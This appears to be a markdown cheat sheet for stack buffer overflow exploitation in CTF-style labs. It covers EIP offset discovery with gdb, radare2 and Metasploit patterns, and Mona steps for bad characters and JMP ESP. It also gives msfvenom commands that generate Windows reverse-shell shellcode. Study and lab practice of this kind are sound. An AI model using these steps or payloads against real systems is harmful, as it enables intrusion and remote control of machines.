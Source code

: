 # Buffer Overflow

# Find EIP offset

## gdb

- search for input

```
> run
input:
AAAAAAAAAAA

> search-pattern AAAAAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x804d000-0x806f000), permission=rw-
 0x804d1a0 - 0x804d1aa → "AAAAAAAA\\n"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
 0xffffd00c - 0xffffd014 → "AAAAAAAA"

>  i f
Stack level 0, frame at 0xffffd080:
 eip = 0x804935a in vuln; saved eip = 0x80493dd
 called by frame at 0xffffd0b0
 Arglist at 0xffffcfec, args:
 Locals at 0xffffcfec, Previous frame's sp is 0xffffd080
 Saved registers:
 ebx at 0xffffd074, ebp at 0xffffd078, eip at 0xffffd07c

> python print(0xffffd07c - 0xffffd00c)
112
```

- cyclic pattern

```
## Create pattern
# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150
# gdb-peda
gdb-peda$ pattern create 150
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAA'
# gdb-pwndbg
pwndbg> cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
# gdb-gef
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
[+] Saved as '$_gef0'

## Feed the pattern to the binary within gdb
## Search EIP value to get offset
# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_offset -q 0xdeadbeef
# gdb-peda
db-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
# gdb-pwndbg
pwndbg> cyclic -l 0x6161616c
44
# gdb-gef
gef➤ pattern offset 0x6161616c
[+] Searching for '0x6161616c'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search)
```

## r2

- use metasploit cyclic pattern

```
$ r2 -d vuln
glibc.fc_offset = 0x00148
[0xf7f90070]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Finding and parsing C++ vtables (avrr)
[x] Skipping type matching analysis in debugger mode (aaft)
[x] Propagate noreturn information (aanr)
[x] Use -AA or aaaa to perform additional experimental analysis.
[0xf7f90070]> dc
Please enter your string:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Okay, time to return... Fingers Crossed... Jumping to 0x35624134
[+] SIGNAL 11 errno=0 addr=0x35624134 code=1 si_pid=895631668 ret=0
[0x35624134]> dr
eax = 0x00000041
ebx = 0x41326241
ecx = 0x00000041
edx = 0xffffffff
esi = 0x00000001
edi = 0x080490e0
esp = 0xffc71be0
ebp = 0x62413362
eip = 0x35624134
eflags = 0x00010282
oeax = 0xffffffff
[0x35624134]> exit
Do you want to quit? (Y/n) y
Do you want to kill the process? (Y/n) y

## Search offset
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35624134
[*] Exact match at offset 44
```

## cmdline

# Immunity Debugger + Mona

- Set Mona Working Folder

```
!mona config -set workingfolder c:\\mona\\%p
```

- Generate pattern

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
!mona pattern_create 3000
```

- After crash, note EIP value then identify the offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 2012
```

- Compare memory with bytearray to find bad chars

```
!mona bytearray
!mona compare -a esp -f c:\\path\\to\\bytearray.bin
```

- Find JMP ESP Address

```
!mona jmp -r esp
```

- Generate shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f c -b "\\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -b "\\x00" -f python EXITFUNC=thread
```

- Generate byte string

```
for x in range(1, 256):
  print("\\\\x" + "{:02x}".format(x), end='')
print()
```

## Links

---

### Guides

### Writeups

- [https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w](https://cd6629.gitbook.io/ctfwriteups/buffer-overflow-wlk/brainstorm-w)
- [https://noxious.tech/posts/Brainstorm/](https://noxious.tech/posts/Brainstorm/)